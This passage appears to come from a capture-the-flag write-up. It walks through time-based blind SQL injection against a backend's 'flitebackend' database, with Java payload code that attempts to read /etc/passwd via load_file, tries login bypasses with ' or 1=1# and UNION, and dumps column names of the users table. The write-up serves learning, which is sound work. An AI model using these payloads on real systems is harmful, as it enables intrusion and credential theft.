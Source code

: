 Two tables found: `devices` and `users` in `flitebackend` database.

#### Read files?
Maybe we could read some files?

```java
    System.out.println(blindString("'||(IF((SELECT ascii(substr(load_file('/etc/hosts'),%d,1)))%c%d,SLEEP(%d),1))#", 20));
    System.out.println(blindString("'||(IF((SELECT ascii(substr(load_file('/etc/passwd'),%d,1)))%c%d,SLEEP(%d),1))#", 20));
```
I don't think so...

#### Login
Maybe you are wondering why I didn't log in yet. But I started doing the time-based SQLi before even trying to log in. So let's see if we are able to log in using the SQLi:

```java
    System.out.println(PayloadRequest.sendCommand("' or 1=1#", "123123", "getTemp")); 
    // {"success": false, "error": "Invalid username or password"}
```

Humm, we need to think how the backend is doing the login process:
1. SELECT username, password FROM users WHERE username='+ username_param +' and password = '+ password_param +' ?
2. SELECT password FROM table WHERE username='+ username_param +'; then check password?

For 1 we already know that is not the case because using `' or 1=1#` would give us a successful message.
For 2 we need another test, first of all, let's check how many columns the query has.

```java
    System.out.println(PayloadRequest.sendCommand("' order by 1#", "", "getTemp")); 
    // {"success": false, "error": "Invalid username or password"}.
    
    System.out.println(PayloadRequest.sendCommand("' order by 2#", "", "getTemp")); 
    // {"success": false, "error": "Unknown"}
```

Ok, based on error message we can affirm that there is only one column on the query. Thus we could try to use `UNION` to fake a successful query:

```java
    System.out.println(PayloadRequest.sendCommand("' union all select ''#", "", "getTemp")); 
    // {"success": false, "error": "Invalid username or password"}
```

Not yet. There is something more... Step back and let's dump users table.

#### users table

First, we need to know the table structure. To facilitate the process I created a method called `blindColumnName` with two parameters: `table` and `offset`. This method will dump all columns names from `String table` parameter. 

```java
	public static String blindColumnName(String table, int offset) throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(column_name,%d,1)) from information_schema.columns where table_name='"+table+"' and table_schema = database() limit "+offset+",1)%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 100);
	}
	
	...
	PayloadRequest.blindColumnName("users",0); // id
	PayloadRequest.blindColumnName("users",1); // username
	PayloadRequest.blindColumnName("users",2); // password
	PayloadRequest.blindColumnName("users",3); // None
	
```
